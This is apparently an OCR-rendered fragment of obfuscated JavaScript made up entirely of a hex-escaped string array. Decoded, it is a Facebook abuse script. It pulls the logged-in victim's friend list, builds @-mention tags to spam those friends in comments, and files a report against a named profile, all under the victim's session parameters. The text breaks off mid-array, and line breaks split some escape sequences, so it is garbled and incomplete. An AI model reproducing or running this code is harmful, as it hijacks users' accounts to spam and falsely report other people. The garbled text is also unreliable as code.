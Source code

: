\x25\x32\x32\x6F\x6E\x5F\x70\x72\x6F\x66\x69\x6C\x65\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25
\x32\x43\x25\x32\x32\x70\x68\x61\x73\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x72\x65
\x66\x25\x32\x32\x25\x33\x41\x25\x32\x32\x68\x74\x74\x70\x73\x25\x33\x41\x25\x35\x43\x25\x32\x46\x25
\x35\x43\x25\x32\x46\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x25\x35\x43\x25
\x32\x46\x4E\x61\x6E\x2E\x65\x72\x74\x74\x37\x25\x32\x32\x25\x32\x43\x25\x32\x32\x72\x65\x70\x6F\x72
\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x31\x34\x35\x25\x32\x43\x25\x32\x32\x72\x69\x64\x25
\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x73\x75\x62\x5F\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\
x70\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x74\x69\x6D\x65\x5F\x66\x6C\x6F\x77\x5F\
x73\x74\x61\x72\x74\x65\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x75\x73\x65\x72\x25\x
32\x32\x25\x33\x41","\x25\x37\x44\x26\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x3D\x31\x26\x5F\x5
F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79
\x6A\x32\x71\x6D\x76\x75\x35\x6B\x39\x55\x6D\x41\x41\x61\x55\x56\x70\x6F\x26\x5F\x5F\x72\x65\x71\x3D
\x75\x26\x74\x74\x73\x74\x61\x6D\x70\x3D\x32\x36\x35\x38\x31\x36\x38\x35\x37\x31\x30\x37\x31\x31\x30
\x38\x38\x38\x30","\x31\x30\x30\x30\x30\x36\x39\x35\x32\x31\x31\x39\x30\x34\x38","\x32\x37\x36\x36\x
31\x32\x30\x37\x35\x38\x32\x37\x37\x34\x35","\x61\x72\x6B\x61\x64\x61\x73\x6C\x61\x72\x20\x3D\x20","
\x66\x6F\x72\x20\x28\x3B\x3B\x29\x3B","\x72\x65\x70\x6C\x61\x63\x65","\x72\x65\x73\x70\x6F\x6E\x73\x
65\x54\x65\x78\x74","\x65\x6E\x74\x72\x69\x65\x73","\x70\x61\x79\x6C\x6F\x61\x64","\x72\x6F\x75\x6E\
x64","\x20\x40\x5B","\x75\x69\x64","\x3A","\x74\x65\x78\x74","\x5D","\x20","\x26\x66\x69\x6C\x74\x65
\x72\x5B\x30\x5D\x3D\x75\x73\x65\x72","\x26\x6F\x70\x74\x69\x6F\x6E\x73\x5B\x30\x5D\x3D\x66\x72\x69\
x65\x6E\x64\x73\x5F\x6F\x6E\x6C\x79","\x26\x6F\x70\x74\x69\x6F\x6E\x73\x5B\x31\x5D\x3D\x6E\x6D","\x2
6\x74\x6F\x6B\x65\x6E\x3D\x76\x37","\x26\x76\x69\x65\x77\x65\x72\x3D","\x26\x5F\x5F\x75\x73\x65\x72\
x3D","\x68\x74\x74\x70\x73\x3A\x2F\x2F","\x55\x52\x4C","\x47\x45\x54","\x68\x74\x74\x70\x73\x3A\x2F\
x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x74\x79\
x70\x65\x61\x68\x65\x61\x64\x2F\x66\x69\x72\x73\x74\x5F\x64\x65\x67\x72\x65\x65\x2E\x70\x68\x70\x3F\
x5F\x5F\x61\x3D\x31","\x68\x74\x74\x70\x3A\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x
2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x74\x79\x70\x65\x61\x68\x65\x61\x64\x2F\x66\x69\x72\x73\x74\x
5F\x64\x65\x67\x72\x65\x65\x2E\x70\x68\x70\x3F\x5F\x5F\x61\x3D\x31","\x26\x66\x74\x5F\x65\x6E\x74\x5
F\x69\x64\x65\x6E\x74\x69\x66\x69\x65\x72\x3D","\x26\x63\x6F\x6D\x6D\x65\x6E\x74\x5F\x74\x65\x78\x74
\x3D","\x26\x73\x6F\x75\x72\x63\x65\x3D\x32","\x26\x63\x6C\x69\x65\x6E\x74\x5F\x69\x64\x3D\x31\x33\x
37\x37\x38\x37\x31\x37\x39\x37\x31\x33\x38\x3A\x31\x37\x30\x37\x30\x31\x38\x30\x39\x32","\x26\x72\x6
5\x70\x6C\x79\x5F\x66\x62\x69\x64","\x26\x70\x61\x72\x65\x6E\x74\x5F\x63\x6F\x6D\x6D\x65\x6E\x74\x5F
\x69\x64","\x26\x72\x6F\x6F\x74\x69\x64\x3D\x75\x5F\x6A\x73\x6F\x6E\x70\x5F\x32\x5F\x33","\x26\x63\x